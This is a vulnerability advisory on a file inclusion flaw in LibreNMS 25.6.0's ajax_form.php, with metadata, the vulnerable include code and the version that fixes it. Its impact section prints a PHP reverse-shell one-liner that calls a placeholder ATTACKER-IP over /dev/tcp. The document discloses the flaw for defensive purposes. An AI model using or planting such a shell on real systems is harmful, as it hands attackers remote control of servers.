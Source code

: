 # Authenticated Remote File Inclusion in `ajax_form.php` Allows RCE

#### CVE ID: Pending

#### Date: 2025-07-16

#### Author: Seth Kraft

#### Vendor Homepage: https://www.librenms.org/

#### Vendor Changelog: https://github.com/librenms/librenms/releases

#### Affected Version: 25.6.0

#### Fixed Version: 25.7.0 via [PR-17990](https://github.com/librenms/librenms/pull/17990)

#### CWE ID: [`CWE-98`](https://cwe.mitre.org/data/definitions/98.html) (Improper Control of Filename for Include/Require Statement in PHP Program)

#### Estimated CVSS Base Score: 7.5 (High)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Type: Remote PHP File Inclusion

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

LibreNMS 25.6.0 contains an architectural vulnerability in the `ajax_form.php` endpoint that permits Local File Inclusion (LFI) based on user-controlled POST input. 

The application directly uses the `type` parameter to dynamically include `.inc.php` files from the trusted path `includes/html/forms/`, without validation or allowlisting:

```php
if (file_exists('includes/html/forms/' . $_POST['type'] . '.inc.php')) {
    include_once 'includes/html/forms/' . $_POST['type'] . '.inc.php';
}
```
This pattern introduces a latent Remote Code Execution (RCE) vector if an attacker can stage a file in this include path — for example, via symlink, development misconfiguration, or chained vulnerabilities.

>  This is not an arbitrary file upload bug. But it does provide a powerful execution sink for attackers with write access (direct or indirect) to the include directory.

---

## Conditions for Exploitation

- Attacker must be authenticated    
- Attacker must control a file at `includes/html/forms/{type}.inc.php` (or symlink)        

## Example Impact (RCE)

If a PHP file or symlinked shell is staged in the include path, an attacker can achieve full remote code execution under the `librenms` user context:

```php
<?php system('/bin/bash -c "bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1"'); ?>
```

![Screen Recording 2025-06-25 212722](https://github.com/user-attachments/assets/9638d4b4-bfd6-4ace-8af1-8990c6736bc8)

---

## Solution

Upgrade to Version 25.7.0

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---
